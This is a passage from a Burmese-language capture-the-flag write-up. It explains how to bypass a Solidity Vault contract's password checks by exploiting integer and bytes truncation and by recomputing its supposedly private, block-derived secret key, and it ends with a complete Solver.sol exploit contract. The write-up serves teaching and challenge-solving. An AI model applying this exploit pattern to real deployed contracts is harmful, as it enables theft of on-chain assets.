        64-bit                 64-bit
```

### Case 1

```solidity
require(_input != _secretKey, "Case 1 failed");
```

ပထမ condition က ကျွန်တော်တို့ ထည့်ပေးလိုက်တဲ့ password တခုလုံးရဲ့ integer တန်ဖိုးနဲ့ _secretKey မတူရဘူး ဆိုတာပါ။

ဒီမှာ _secretKey ကို သိရုံနဲ့ password အဖြစ် တန်းထည့်ပေးလို့ မရပါဘူး။ တူသွားရင် Case 1 failed ဆိုပြီး transaction က revert ဖြစ်သွားမှာပါ။

```text
_secretKey : 0x00000000000000003245546776ab3245
_input     : 0x00000000000000003245546776ab3245

တူနေတဲ့အတွက် Case 1 failed ဖြစ်ပါမယ်။
```

ဒါဆို _secretKey နဲ့ မတူတဲ့ တန်ဖိုးတခု ထည့်ပေးလိုက်ရင် ရပြီလား ဆိုတော့ နောက်ထပ် condition နှစ်ခု ရှိနေပါသေးတယ်။

### Case 2

```solidity
require(uint64(_input) == _secretKey, "Case 2 failed");
```

ဒီ condition ကတော့ _input ကို uint64 အဖြစ် ပြောင်းပြီး _secretKey နဲ့ တူရမယ်လို့ စစ်ထားပါတယ်။ ပထမ condition နဲ့ ပြောင်းပြန်ဖြစ်နေသလို ထင်ရပေမဲ့ ဒီမှာ cast လုပ်ထားတဲ့ size က မတူတော့ပါဘူး။

uint128 ကနေ uint64 အဖြစ် ပြောင်းလိုက်တဲ့အချိန်မှာ အရှေ့ပိုင်း 64-bit ကို ဖြတ်ချပြီး အနောက်ဆုံး 64-bit ကိုပဲ ယူပါတယ်။

```{.text collapse="true" title="Input byte layout"}
_input : 0x11223344556677883245546776ab3245

အရှေ့ပိုင်း                အနောက်ပိုင်း
[11][22][33][44]           [32][45][54][67]
[55][66][77][88]           [76][ab][32][45]
   ဖြတ်ချမယ်                  ယူမယ်

uint64(_input) : 0x3245546776ab3245
_secretKey    : 0x3245546776ab3245
```

ဒီလိုဆိုရင် password တခုလုံးကို ကြည့်တဲ့အချိန်မှာ _secretKey နဲ့ မတူပါဘူး။ ဒါပေမဲ့ အနောက်ဆုံး 8 bytes ကိုပဲ ယူကြည့်တဲ့အချိန်မှာတော့ _secretKey နဲ့ တူပါတယ်။ ဒါကြောင့် Case 1 နဲ့ Case 2 နှစ်ခုလုံးကို ကျော်လို့ရပါတယ်။

ပြောရရင် password ရဲ့ အနောက်ပိုင်း 8 bytes ကို _secretKey အဖြစ်ထားပြီး အရှေ့ပိုင်းမှာ zero မဟုတ်တဲ့ တန်ဖိုး ရှိနေရပါမယ်။ အဲ့ အရှေ့ပိုင်းတန်ဖိုးကိုလည်း ကြိုက်သလို ထည့်လို့ မရသေးပါဘူး။ Case 3 က ထပ်ပြီး သတ်မှတ်ပေးထားပါတယ်။

### Case 3

```solidity
require(
    uint64(bytes8(_password)) == uint64(uint160(owner)),
    "Case 3 failed"
);
```

ဒီမှာ bytes8(_password) ဆိုတဲ့ အပိုင်းကို သတိထားရပါမယ်။ ခုနက uint64(_input) နဲ့ မတူပါဘူး။

* uint128 ကနေ uint64 ပြောင်းရင် အနောက်ဆုံး 8 bytes ကို ယူပါတယ်။
* bytes16 ကနေ bytes8 ပြောင်းရင် အရှေ့ဆုံး 8 bytes ကို ယူပါတယ်။

အပေါ်က _secret တွက်တဲ့နေရာမှာလိုပဲ fixed-size bytes type ကို အငယ်ပြောင်းတဲ့အချိန်မှာ အရှေ့ပိုင်းကို ယူပြီး အနောက်ပိုင်းကို ဖြတ်ချပါတယ်။ ဒါကြောင့် ဒီ Case 3 က password ရဲ့ အရှေ့ပိုင်း 8 bytes ကို စစ်တာဖြစ်ပါတယ်။

```text
_password         : 0x11223344556677883245546776ab3245
bytes8(_password) : 0x1122334455667788

uint64(bytes8(_password)) : 0x1122334455667788
```

ညာဘက်က uint64(uint160(owner)) ကိုလည်း ကြည့်ပါမယ်။ owner က address type ဖြစ်တဲ့အတွက် 20 bytes ၊ တနည်းအားဖြင့် 160-bit ရှိပါတယ်။ uint160 ပြောင်းလိုက်တော့ အဲ့ address ကို integer အဖြစ် ယူလိုက်တာပါ။ ပြီးမှ uint64 ပြောင်းတဲ့အတွက် အနောက်ဆုံး 8 bytes ပဲ ကျန်ပါမယ်။

```{.text layout="flow"}
ဥပမာ owner address က

0xaabbccddeeff0011223344551122334455667788

uint64(uint160(owner)) : 0x1122334455667788
```

ဒီမှာ owner က ဘယ်သူလဲ ဆိုတာ ပြန်ကြည့်ပါမယ်။ အပေါ်က constructor() မှာ ရှင်းထားတဲ့အတိုင်း Vault ကို new Vault() နဲ့ ဖန်တီးတာက Setup Contract ဖြစ်လို့ owner က Setup Contract ရဲ့ address ဖြစ်ပါတယ်။ Vault ရဲ့ address ကိုယ်တိုင် မဟုတ်ပါဘူး။

```{.text layout="flow" collapse="true" title="Constructor values"}
Vault constructor() ထဲမှာ

msg.sender    = Setup Contract address
address(this) = Vault Contract address

owner         = Setup Contract address
map.holder    = Vault Contract address
```

ဒါကြောင့် Case 3 ကို ကျော်ဖို့ password ရဲ့ အရှေ့ဆုံး 8 bytes ကို owner address ရဲ့ အနောက်ဆုံး 8 bytes နဲ့ တူအောင် ထည့်ပေးရမှာဖြစ်ပါတယ်။

### Building the password

condition သုံးခုကို ပြန်ပေါင်းကြည့်လိုက်ရင် ကျွန်တော်တို့ ထည့်ပေးရမဲ့ password ပုံစံက ဒီလိုဖြစ်ပါတယ်။

```{.text collapse="true" title="Password layout"}
                  bytes16 _password

[ owner ရဲ့ နောက်ဆုံး 8 bytes ][ _secretKey 8 bytes ]

ဥပမာ

owner အပိုင်း : 0x1122334455667788
secret အပိုင်း: 0x3245546776ab3245

_password    : 0x11223344556677883245546776ab3245
```

အပေါ်က တန်ဖိုးတွေက နားလည်လွယ်အောင် ပေးထားတဲ့ ဥပမာတွေဖြစ်ပါတယ်။ Challenge မှာ တကယ်ထည့်ရမဲ့ password ကတော့ လက်ရှိ owner နဲ့ unlock() run မဲ့ block ထဲမှာ တွက်ရတဲ့ _secretKey ပေါ် မူတည်ပါတယ်။

Solidity နဲ့ တည်ဆောက်မယ်ဆိုရင် အောက်က ပုံစံအတိုင်း ရေးလို့ရပါတယ်။ ဒီ code မှာ secretKey က Vault တွက်မဲ့ _secretKey နဲ့ တူတဲ့ uint64 တန်ဖိုးကို တွက်ပြီးသားလို့ ယူထားတာဖြစ်ပါတယ်။

```solidity
uint128 upper = uint128(uint64(uint160(owner))) << 64;
uint128 lower = uint128(secretKey);
bytes16 password = bytes16(upper | lower);
```

owner ရဲ့ နောက်ဆုံး 8 bytes ကို uint128 အဖြစ် အရင်ပြောင်းပြီး ဘယ်ဘက် 64-bit ရွှေ့ပါတယ်။ uint64 အဖြစ်နဲ့ပဲ 64-bit ရွှေ့လိုက်ရင် bit တွေအကုန် ဘောင်အပြင်ရောက်ပြီး ပျောက်သွားမှာဖြစ်လို့ uint128 ကို အရင်ပြောင်းပေးရတာပါ။

```text
upper : 0x11223344556677880000000000000000
lower : 0x00000000000000003245546776ab3245
        ----------------------------------
OR    : 0x11223344556677883245546776ab3245
```

ဒီမှာ owner ရဲ့ နောက်ဆုံး 8 bytes က zero မဖြစ်ဖို့လည်း လိုပါတယ်။ zero ဖြစ်နေခဲ့ရင် Case 3 ကြောင့် password ရဲ့ အရှေ့ပိုင်းကလည်း zero ပဲ ဖြစ်ရပါမယ်။ အဲ့ဒီအချိန်မှာ Case 2 ကို ဖြည့်လိုက်တာနဲ့ _input က _secretKey နဲ့ တူသွားပြီး Case 1 ကို ကျော်လို့ မရတော့ပါဘူး။

### Calculating the secret key

password ရဲ့ အရှေ့ပိုင်းကို owner() getter ကနေ ဖတ်ပြီး ယူလို့ရပါပြီ။ ကျန်တာကတော့ _secretKey ကို Vault နဲ့ တူအောင် တွက်ဖို့ပါပဲ။

ဒီမှာ private ဆိုတဲ့ keyword က အပြင်က Contract တခုအနေနဲ့ function ကို တိုက်ရိုက်ခေါ်လို့ မရအောင် ကန့်သတ်ထားတာ ဖြစ်ပါတယ်။ အဲ့ function ထဲက တွက်ချက်ပုံကို တခြား Contract မှာ ပြန်ရေးလို့ မရဘူးလို့ ဆိုလိုတာ မဟုတ်ပါဘူး။ private variable ဆိုတာလည်း blockchain ပေါ်မှာ သိမ်းထားတဲ့ data ကို လျှို့ဝှက်ပေးထားတာ မဟုတ်ပါဘူး။

_generateKey() နဲ့ _magicPassword() မှာ သုံးထားတဲ့ data တွေက blockhash ၊ block.timestamp ၊ nonce နဲ့ passphrase တို့ဖြစ်ပါတယ်။ passphrase ကို zero 32 bytes ရဲ့ hash အဖြစ် သုံးမယ်ဆိုရင် constructor() run တဲ့အချိန် blockhash(block.timestamp) က zero ပြန်ခဲ့တာကို အရင်အတည်ပြုထားရပါမယ်။ မသေချာရင် Vault ရဲ့ storage ကနေ passphrase ကို ဖတ်ပြီး အဲ့ တန်ဖိုးနဲ့ တွက်နိုင်ပါတယ်။ nonce ကတော့ public ဖြစ်တဲ့အတွက် လက်ရှိတန်ဖိုးကို getter နဲ့ ဖတ်လို့ရပါတယ်။

```solidity
uint256 _key1 = _generateKey(block.timestamp % 2 + 1);
uint128 _key2 = uint128(_generateKey(2));
```

_key1 တွက်တဲ့နေရာမှာလည်း အစီအစဉ်ကို သတိထားရပါမယ်။ _generateKey() ရဲ့ return တန်ဖိုးကို % 2 + 1 လုပ်တာ မဟုတ်ဘဲ block.timestamp % 2 + 1 ကို အရင်တွက်ပြီး ရလာတဲ့ 1 သို့မဟုတ် 2 ကို _reductor အဖြစ် ထည့်ပေးတာဖြစ်ပါတယ်။

```{.text layout="flow"}
block.timestamp က စုံကိန်းဆိုရင်
_reductor = 0 + 1 = 1

block.timestamp က မကိန်းဆိုရင်
_reductor = 1 + 1 = 2
```

nonce ကလည်း _generateKey() တကြိမ်ခေါ်တိုင်း 1 တိုးပါတယ်။ ဒါကြောင့် Vault ဆီက ဖတ်ထားတဲ့ လက်ရှိ nonce ကို n လို့ထားရင် _key1 တွက်တဲ့အခါ n ကို သုံးပြီး _key2 တွက်တဲ့အခါ n + 1 ကို သုံးရပါမယ်။ unlock() အောင်မြင်ပြီး transaction လည်း revert မဖြစ်ရင် Vault ရဲ့ nonce က စုစုပေါင်း 2 တိုးသွားပါမယ်။ require တခုခုမှာ failed ဖြစ်ပြီး unlock() က revert ဖြစ်သွားရင်တော့ အဲ့ call အတွင်းက nonce အပြောင်းအလဲတွေလည်း ပြန်ပျက်သွားပါတယ်။

ပြီးတော့ _secret တွက်တဲ့ expression ထဲမှာ passphrase နဲ့ _key1 ကို XOR လုပ်ပြီး ရလာတဲ့ bytes32 ရဲ့ အရှေ့ဆုံး 16 bytes ကို ယူပါတယ်။ အဲ့ တန်ဖိုးကို uint128 ပြောင်းပြီး _key2 နဲ့ ထပ်ပြီး XOR လုပ်ဖို့လည်း လိုပါသေးတယ်။ cast တွေပဲ ဆက်လုပ်ပြီး _key2 နဲ့ XOR လုပ်တဲ့အပိုင်း ကျန်သွားလို့ မရပါဘူး။

```solidity
uint128 firstHalf = uint128(
    bytes16(bytes32(uint256(passphrase) ^ _key1))
);
uint128 mixed = firstHalf ^ _key2;
bytes8 secret = bytes8(bytes16(mixed));
bytes8 magicPassword = (secret >> 32) | (secret << 16);
```

ဒါက မူလ _magicPassword() ထဲက expression အရှည်ကြီးကို တဆင့်ချင်း ခွဲရေးထားတာဖြစ်ပါတယ်။ နောက်ဆုံး magicPassword ကို unlock() ထဲကအတိုင်း bytes16 ပြောင်း၊ ညာဘက် 64-bit ရွှေ့ပြီး uint128 ပြန်ယူလိုက်ရင် _secretKey ရပါပြီ။

အရေးကြီးတာ တခုက ဒီ _secretKey ကို အရင် block မှာ တွက်ထားပြီး နောက် block မှ unlock() ခေါ်ရင် တူမယ်လို့ အာမခံလို့ မရပါဘူး။ block.number နဲ့ block.timestamp ပြောင်းသွားရင် key တွက်ရာမှာ သုံးတဲ့ blockhash လည်း ပြောင်းနိုင်ပါတယ်။

ဒါကြောင့် helper contract တခုထဲမှာ key ကို တွက်ပြီး အဲ့ transaction တခုတည်းအတွင်းမှာပဲ Vault ရဲ့ unlock() ကို ဆက်ခေါ်ပေးတဲ့နည်းကို သုံးပါမယ်။ ဒီလိုဆို helper contract နဲ့ Vault နှစ်ခုလုံးက block.number ၊ block.timestamp နဲ့ အရင် block တွေရဲ့ blockhash တွေကို တူတူပဲ မြင်ရမှာပါ။ nonce ကိုတော့ Vault ဆီက ဖတ်ပြီး helper ဘက်မှာ local variable နဲ့ တွက်ရမှာဖြစ်ပါတယ်။

```{.text collapse="true" title="Helper call flow"}
Wallet က helper contract ကို ခေါ်မယ်
                  │
                  ▼
Vault ရဲ့ owner နဲ့ လက်ရှိ nonce ကို ဖတ်မယ်
                  │
                  ▼
_key1 ၊ _key2 နဲ့ _secretKey ကို တွက်မယ်
                  │
                  ▼
owner အပိုင်းနဲ့ secret အပိုင်း ပေါင်းပြီး password လုပ်မယ်
                  │
                  ▼
Vault.unlock(password) ကို ခေါ်မယ်
                  │
                  ▼
Vault.claimContent() ကို ခေါ်မယ်
```

unlock() က condition သုံးခုလုံး ကျော်သွားရင် isUnlocked ကို true ပြောင်းပေးပါတယ်။ ဒါပေမဲ့ ဒီနေရာမှာပဲ ရပ်လိုက်ရင် Challenge က solve မဖြစ်သေးပါဘူး။ Setup ရဲ့ isSolved() က isUnlocked ကို စစ်တာ မဟုတ်ဘဲ map.holder ပြောင်းသွားလား ဆိုတာကို စစ်တာဖြစ်ပါတယ်။

ဒါကြောင့် claimContent() ကို ထပ်ခေါ်ပေးရပါမယ်။ helper contract ကနေ ခေါ်လိုက်ရင် map.holder က helper contract ရဲ့ address ဖြစ်သွားမှာပါ။ Wallet address ဖြစ်ဖို့ မလိုပါဘူး။ မူလ Vault address နဲ့ မတူတော့ရင် Setup ရဲ့ isSolved() က true ပြန်ပေးမှာဖြစ်ပါတယ်။

## Solver.sol

အပေါ်မှာ ရှင်းခဲ့တဲ့ helper contract ပုံစံကို ကျွန်တော်က Solver.sol နဲ့ ရေးပြီး ဖြေရှင်းခဲ့ပါတယ်။ code အပြည့်အစုံကို အရင်ကြည့်ပါမယ်။

```{.solidity filename="Solver.sol" collapse="true"}
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface IVault {

    function owner() external view returns (address);
    function nonce() external view returns (uint256);
    function isUnlocked() external view returns (bool);
    function mapHolder() external view returns (address);
    function claimContent() external;
    function unlock(bytes16 password) external;

}

contract Solver {

    bytes32 public passphrase;
    uint256 public key1;
    uint128 public key2;

    function solve(IVault vault) public {

       /* goal

        Case 1

_input     = AABBCCDDEEFF0011 1122334455667788
_secretKey = 0000000000000000 1122334455667788

        Case 2

uint64(_input) = 1122334455667788
secret        = 1122334455667788

        Case 3

password ရဲ့ ရှေ့ 8 bytes = AABBCCDDEEFF0011
owner ရဲ့ နောက် 8 bytes   = AABBCCDDEEFF0011

       */

        passphrase = bytes32(keccak256(abi.encodePacked(uint256(0))));
        uint256 nonce = vault.nonce();
        address owner = vault.owner();

        key1 = uint256(
            keccak256(
                abi.encodePacked(
                    uint256(
                        blockhash(block.number - (block.timestamp % 2 + 1))
                    ) + nonce
                )
            )
        );
        nonce = nonce + 1;

        key2 = uint128(
            uint256(
                keccak256(
                    abi.encodePacked(
                        uint256(blockhash(block.number - 2)) + nonce
                    )
                )
            )
        );
        nonce = nonce + 1;

        bytes8 _secret = bytes8(
            bytes16(
                uint128(
                    uint128(
                        bytes16(bytes32(uint256(uint256(passphrase) ^ key1)))
                    ) ^ key2
                )
            )
        );
        bytes8 magicPassword = (_secret >> 32 | _secret << 16);
        uint128 _secretKey = uint128(bytes16(magicPassword) >> 64);

        uint64 ownerLow = uint64(uint160(owner));
        uint128 front = uint128(ownerLow) << 64 ;

        bytes16 password = bytes16(front | _secretKey);

        vault.unlock(password);
        vault.claimContent();

    }
}
```

### IVault interface

ပထမဆုံး IVault ဆိုတဲ့ interface ကို ရေးထားပါတယ်။ ဒါက Vault အသစ်တခု deploy လုပ်တာ မဟုတ်ပါဘူး။ ရှိပြီးသား Vault Contract ဆီက ဘယ် function တွေကို ဘယ် parameter တွေနဲ့ ခေါ်လို့ရတယ်၊ ဘာ type ပြန်လာမယ်ဆိုတာ Solver ဘက်မှာ သိအောင် ကြေညာထားတာဖြစ်ပါတယ်။ function တွေရဲ့ အလုပ်လုပ်ပုံကို ဒီ interface ထဲမှာ ပြန်ရေးစရာ မလိုပါဘူး။

```solidity
function owner() external view returns (address);
function nonce() external view returns (uint256);
```

Vault ထဲမှာ owner နဲ့ nonce ကို public ကြေညာထားတဲ့အတွက် getter တွေ ရှိပြီးသားဖြစ်ပါတယ်။ အဲ့ getter တွေကနေ လက်ရှိ owner နဲ့ nonce ကို ဖတ်ဖို့ ဒီလို ရေးထားတာပါ။

isUnlocked() နဲ့ mapHolder() ကိုလည်း interface ထဲမှာ ထည့်ထားပါတယ်။ ဒါပေမဲ့ ဒီ solve() ထဲမှာတော့ အဲ့နှစ်ခုကို ခေါ်မထားပါဘူး။ Vault ရဲ့ အခြေအနေကို စစ်ကြည့်ချင်တဲ့အခါ သုံးလို့ရတဲ့ function တွေဖြစ်ပါတယ်။ unlock() နဲ့ claimContent() ကတော့ နောက်ဆုံးမှာ တကယ်ခေါ်မဲ့ function တွေပါ။

### Solver ထဲက variable တွေ

```solidity
bytes32 public passphrase;
uint256 public key1;
uint128 public key2;
```

ဒီသုံးခုက Solver Contract ရဲ့ state variable တွေဖြစ်ပါတယ်။ Vault ထဲက variable တွေနဲ့ နာမည်ဆင်တူနေပေမဲ့ တနေရာတည်းမှာ သိမ်းထားတာ မဟုတ်ပါဘူး။ Solver ရဲ့ passphrase ကို ပြောင်းလိုက်လို့ Vault ရဲ့ passphrase က လိုက်ပြောင်းသွားမှာ မဟုတ်ပါဘူး။

public ထားတဲ့အတွက် solve() transaction အောင်မြင်ပြီးတဲ့နောက် တွက်ထားတဲ့ တန်ဖိုးတွေကို Solver ရဲ့ getter တွေကနေ ပြန်ဖတ်ကြည့်လို့ရပါတယ်။

```solidity
function solve(IVault vault) public {
```

solve() ကို ခေါ်တဲ့အချိန် vault နေရာမှာ ကျွန်တော်တို့ ဖြေရှင်းမဲ့ Vault Contract ရဲ့ address ကို ထည့်ပေးရပါမယ်။ Setup Contract ရဲ့ address မဟုတ်ပါဘူး။ Setup ရဲ့ TARGET() getter ကနေ ရတဲ့ Vault address ကို သုံးရမှာပါ။ IVault ဆိုတဲ့ type နဲ့ လက်ခံထားပေမဲ့ ABI မှာတော့ address အဖြစ်ပဲ ပေးရပါတယ်။

### passphrase ၊ nonce နဲ့ owner ကို ယူမယ်

```solidity
passphrase = bytes32(keccak256(abi.encodePacked(uint256(0))));
uint256 nonce = vault.nonce();
address owner = vault.owner();
```

ဒီ Solver မှာ passphrase ကို uint256(0) ရဲ့ packed encoding ကို hash လုပ်ပြီး ယူထားပါတယ်။ အပေါ်မှာ ပြောခဲ့တဲ့အတိုင်း Vault deploy လုပ်တဲ့အချိန် blockhash(block.timestamp) က zero ပြန်ခဲ့တဲ့အခြေအနေကို အခြေခံထားတာပါ။ ဘယ် deployment မှာမဆို ဒီ passphrase ကို သုံးလို့ရတယ်လို့တော့ မယူရပါဘူး။ မူလ Vault ထဲက passphrase နဲ့ တူဖို့ လိုပါတယ်။

nonce ကိုတော့ 0 လို့ တခါတည်း မသတ်မှတ်ထားဘဲ vault.nonce() နဲ့ လက်ရှိတန်ဖိုးကို ဖတ်ထားပါတယ်။ owner ကိုလည်း vault.owner() နဲ့ပဲ ဖတ်ပါတယ်။ ဒီ owner က Solver ကို ခေါ်တဲ့ Wallet မဟုတ်ဘဲ Vault ကို deploy လုပ်ခဲ့တဲ့ Setup Contract ရဲ့ address ဖြစ်ပါတယ်။

ဒီနေရာက nonce နဲ့ owner က solve() ထဲမှာပဲ သုံးတဲ့ local variable တွေပါ။ အထူးသဖြင့် နောက်မှာ nonce ကို 1 တိုးလိုက်တာက Vault ရဲ့ nonce ကို ပြောင်းတာ မဟုတ်ဘူးဆိုတာ သတိထားရပါမယ်။ ဖတ်လာတဲ့တန်ဖိုးကို Solver ဘက်မှာပဲ ဆက်တွက်နေတာဖြစ်ပါတယ်။

### key1 နဲ့ key2 ကို တွက်မယ်

```solidity
key1 = uint256(
    keccak256(
        abi.encodePacked(
            uint256(blockhash(block.number - (block.timestamp % 2 + 1)))
                + nonce
        )
    )
);
nonce = nonce + 1;

key2 = uint128(
    uint256(
        keccak256(
            abi.encodePacked(uint256(blockhash(block.number - 2)) + nonce)
        )
    )
);
nonce = nonce + 1;
```

ဒီအပိုင်းက Vault ရဲ့ _generateKey() ကို Solver ဘက်မှာ ပြန်တွက်ထားတာပါ။ key1 အတွက် block.timestamp % 2 + 1 ကို သုံးပြီး key2 အတွက်တော့ 2 ကို အမြဲသုံးပါတယ်။ key2 က uint128 ဖြစ်တဲ့အတွက် hash ရဲ့ နောက်ဆုံး 16 bytes ကိုပဲ ယူပါတယ်။

Vault က _generateKey() တခါခေါ်ပြီးတိုင်း nonce ကို 1 တိုးတာကြောင့် Solver ဘက်မှာလည်း key1 တွက်ပြီးတာနဲ့ local nonce ကို 1 တိုးပေးရပါတယ်။ ဒါမှ key2 တွက်တဲ့နေရာမှာ သုံးတဲ့ nonce က Vault နဲ့ တူမှာဖြစ်ပါတယ်။

```{.text layout="flow" collapse="true" title="Nonce calculation"}
Vault ဆီက ဖတ်လာတဲ့ nonce = n

Solver တွက်တဲ့အချိန်
    key1 အတွက် nonce = n
    key2 အတွက် nonce = n + 1
    Vault ရဲ့ nonce  = n ပဲ ရှိသေးတယ်

Vault.unlock() ထဲမှာ ပြန်တွက်တဲ့အချိန်
    _key1 အတွက် nonce = n
    _key2 အတွက် nonce = n + 1
    နှစ်ခါတွက်ပြီး nonce = n + 2
```

key2 အောက်က ဒုတိယ nonce = nonce + 1 ကတော့ Vault ရဲ့ အစီအစဉ်အတိုင်း လိုက်ရေးထားတာပါ။ အဲ့နောက်မှာ local nonce ကို ထပ်မသုံးတော့တဲ့အတွက် password တွက်ဖို့ ဒီဒုတိယ increment က မလိုအပ်ပါဘူး။ key1 နဲ့ key2 ကြားက increment ကတော့ လိုပါတယ်။

### _secretKey ကို ပြန်တွက်မယ်

```solidity
bytes8 _secret = bytes8(
    bytes16(
        uint128(
            uint128(bytes16(bytes32(uint256(uint256(passphrase) ^ key1))))
                ^ key2
        )
    )
);
bytes8 magicPassword = (_secret >> 32 | _secret << 16);
uint128 _secretKey = uint128(bytes16(magicPassword) >> 64);
```

ဒီမှာလည်း Vault ထဲက တွက်ချက်ပုံအတိုင်းပဲ ပြန်ရေးထားပါတယ်။ passphrase နဲ့ key1 ကို XOR လုပ်မယ်၊ အရှေ့ဆုံး 16 bytes ကို ယူမယ်၊ key2 နဲ့ XOR ထပ်လုပ်မယ်၊ ပြီးမှ အရှေ့ဆုံး 8 bytes ကို _secret အဖြစ် ယူပါတယ်။

ပြီးတော့ _secret ကို ညာဘက် 32-bit ရွှေ့ထားတဲ့တန်ဖိုးနဲ့ ဘယ်ဘက် 16-bit ရွှေ့ထားတဲ့တန်ဖိုးကို OR လုပ်ပြီး magicPassword ရပါတယ်။ နောက်ဆုံးလိုင်းကတော့ Vault ရဲ့ unlock() ထဲမှာ လုပ်တဲ့အတိုင်း bytes16 ပြောင်း၊ ညာဘက် 64-bit ရွှေ့ပြီး uint128 အဖြစ် ယူထားတာပါ။

ဒီအဆင့်ပြီးရင် password ရဲ့ အနောက်ပိုင်း 8 bytes အတွက် လိုတဲ့ _secretKey ကို ရပါပြီ။ uint128 နဲ့ သိမ်းထားပေမဲ့ အရှေ့ပိုင်း 8 bytes က zero တွေ ဖြစ်နေမှာပါ။

### password နှစ်ပိုင်းကို ပေါင်းမယ်

```solidity
uint64 ownerLow = uint64(uint160(owner));
uint128 front = uint128(ownerLow) << 64 ;

bytes16 password = bytes16(front | _secretKey);
```

ownerLow က owner address ရဲ့ နောက်ဆုံး 8 bytes ပါ။ အဲ့တန်ဖိုးကို uint128 အရင်ပြောင်းပြီး ဘယ်ဘက် 64-bit ရွှေ့လိုက်တော့ password ရဲ့ အရှေ့ပိုင်းအတွက် နေရာရသွားပါတယ်။ အနောက်ပိုင်းက zero တွေဖြစ်နေတဲ့အတွက် _secretKey နဲ့ OR လုပ်ပြီး ပေါင်းလို့ရပါတယ်။

solve() အပေါ်က comment ထဲမှာ ရေးထားတဲ့ goal ကို ဒီနေရာမှာ ပြန်ကြည့်လို့ရပါတယ်။ အဲ့ထဲက hex တန်ဖိုးတွေက ပုံစံမြင်ရဖို့ ပေးထားတဲ့ ဥပမာတွေပါ။ code ကတော့ owner နဲ့ _secretKey ကို တွက်ပြီး password ကို တည်ဆောက်တာဖြစ်ပါတယ်။

```text
front      = AABBCCDDEEFF0011 0000000000000000
_secretKey = 0000000000000000 1122334455667788
             ---------------------------------
password   = AABBCCDDEEFF0011 1122334455667788
```

ဒီပုံစံဆိုရင် condition သုံးခုကို ဘယ်လိုကျော်လဲဆိုတာ တခါတည်း တွေ့ရပါတယ်။

* Case 1 မှာ password တခုလုံးကို integer ပြောင်းပြီး နှိုင်းယှဉ်တာဖြစ်လို့ အရှေ့ပိုင်းက zero မဟုတ်တဲ့အခါ _secretKey နဲ့ မတူပါဘူး။
* Case 2 မှာ uint64 ပြောင်းပြီး အနောက်ဆုံး 8 bytes ကိုပဲ ယူတဲ့အတွက် _secretKey နဲ့ တူပါတယ်။
* Case 3 မှာ bytes8 ပြောင်းပြီး အရှေ့ဆုံး 8 bytes ကို ယူတဲ့အတွက် owner ရဲ့ နောက်ဆုံး 8 bytes နဲ့ တူပါတယ်။

အပေါ်မှာ ပြောခဲ့တဲ့ ownerLow က zero မဖြစ်ရဘူးဆိုတဲ့ အချက်က ဒီမှာလည်း အတူတူပါပဲ။

### unlock နဲ့ claimContent ကို ဆက်ခေါ်မယ်

```solidity
vault.unlock(password);
vault.claimContent();
```

password ရပြီဆိုတာနဲ့ Vault ရဲ့ unlock() ကို ခေါ်ပါတယ်။ ဒီနေရာမှာ Solver က key တွေတွက်တာနဲ့ Vault က _magicPassword() ပြန်တွက်တာဟာ transaction တခုတည်းအတွင်းမှာ ဖြစ်ပါတယ်။ ဒါကြောင့် နှစ်ဖက်လုံးက block.number ၊ block.timestamp နဲ့ blockhash တွေကို တူတူပဲ မြင်ရပါတယ်။ passphrase နဲ့ nonce လည်း တူနေတဲ့အတွက် _secretKey ကို တူအောင် တွက်နိုင်တာပါ။

unlock() အောင်မြင်ရင် isUnlocked က true ဖြစ်သွားပြီး နောက်တကြောင်းက claimContent() ကို ဆက်ခေါ်ပါတယ်။ ဒီ call နှစ်ခုလုံးမှာ Vault က မြင်တဲ့ msg.sender က Solver Contract ရဲ့ address ဖြစ်ပါတယ်။ Wallet က solve() ကို စခေါ်ခဲ့ပေမဲ့ Vault ကို တိုက်ရိုက်ခေါ်တာက Solver ဖြစ်နေလို့ပါ။

```{.text collapse="true" title="Contract call flow"}
Wallet
  │
  └── Solver.solve(Vault address)
        │   Solver ထဲက msg.sender = Wallet address
        │
        ├── Vault.unlock(password)
        │     Vault ထဲက msg.sender = Solver address
        │
        └── Vault.claimContent()
              Vault ထဲက msg.sender = Solver address
              map.holder = Solver address
```

ဒီနှစ်ခုကို transaction တခုတည်းမှာ ဆက်ခေါ်ထားပြီး revert ကို ဖမ်းထားတာလည်း မရှိပါဘူး။ unlock() မှာ revert ဖြစ်ရင် claimContent() အထိ မရောက်တော့ပါဘူး။ claimContent() မှာ revert ဖြစ်ခဲ့ရင်လည်း အရင် unlock() က ပြောင်းခဲ့တဲ့ state တွေနဲ့ Solver ထဲမှာ သိမ်းခဲ့တဲ့ တန်ဖိုးတွေအပါအဝင် ဒီ solve() transaction ထဲက အပြောင်းအလဲတွေ ပြန်ပျက်သွားမှာပါ။

transaction အောင်မြင်ပြီးတဲ့အခါ မျှော်လင့်ရတဲ့ အခြေအနေက ဒီလိုဖြစ်ပါတယ်။ ဒါက တကယ့် RPC output မဟုတ်ဘဲ စစ်ကြည့်ရမဲ့ တန်ဖိုးတွေကို ဖော်ပြထားတာပါ။

```{.text layout="flow"}
Vault.isUnlocked() → true
Vault.mapHolder()  → Solver Contract address
Vault.nonce()      → solve() စခေါ်ချိန်က nonce + 2
Setup.isSolved()   → true
```

ဒါကြောင့် Solver ကို deploy လုပ်ပြီး solve() ကို Vault address နဲ့ ခေါ်ပေးရင် key တွက်တာ၊ password တည်ဆောက်တာ၊ unlock လုပ်တာနဲ့ holder ပြောင်းတာကို transaction တခုတည်းမှာ ဆက်လုပ်ပေးနိုင်ပါတယ်။ နောက်ဆုံး Setup ရဲ့ isSolved() ကို စစ်တဲ့အချိန် map.holder က မူလ Vault address မဟုတ်တော့တဲ့အတွက် Challenge ရဲ့ condition ကို ပြည့်မီသွားတာဖြစ်ပါတယ်။
